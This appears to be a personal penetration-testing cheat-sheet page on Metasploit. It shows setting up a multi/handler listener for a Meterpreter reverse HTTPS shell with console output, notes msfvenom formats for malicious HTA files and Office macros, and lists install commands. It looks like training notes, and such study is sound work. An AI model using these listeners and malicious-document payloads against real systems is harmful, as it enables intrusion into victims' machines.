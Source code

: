 ```bash
https://github.com/rapid7/metasploit-framework/wiki/Meterpreter

# Msfvenom
https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom

# Multi Handler
We have used Netcat shells, However, this is inelegant and may not work for more advanced Metasploit payloads. Instead, we should use the framework multi/handler module, which works for all single and multi-stage payloads.
msf6 payload(windows/shell_reverse_tcp) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST 192.168.118.2
LHOST => 192.168.118.2
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > exploit -j #as background job
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started HTTPS reverse handler on https://192.168.118.2:443
msf6 exploit(multi/handler) > jobs #list jobs
msf6 exploit(multi/handler) > jobs -i 0
msf6 exploit(multi/handler) > kill 0
[*] Stopping the following job(s): 0
[*] Stopping job 0

# Client-side attacks
msfvenom -f
The hta-psh, vba, and vba-psh formats are designed for use in client-side attacks by creating either a malicious HTML Application or an Office macro for use in a Word or Excel document, respectively.
msf6 > search flash #Flash-based exploits

# Transport
https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Transport-Control
```
{% endcode %}

**SHOW ADVANCED OPTIONS**

stage payload --> several stages, i.e. first to connect and download a part of a payload and then from the victim we ask for the rest // nc does not work, we need Metasploit handler stageless --> we have all the payload directly on the victim machine

search type:auxiliary platform:windows

## User Interfaces and Setup

```bash
sudo systemctl start postgresql
sudo systemctl enable postgresql
sudo msfdb init
sudo apt update; sudo apt install metasploit-framework
sudo msfconsole -q # -q hide the banner
```
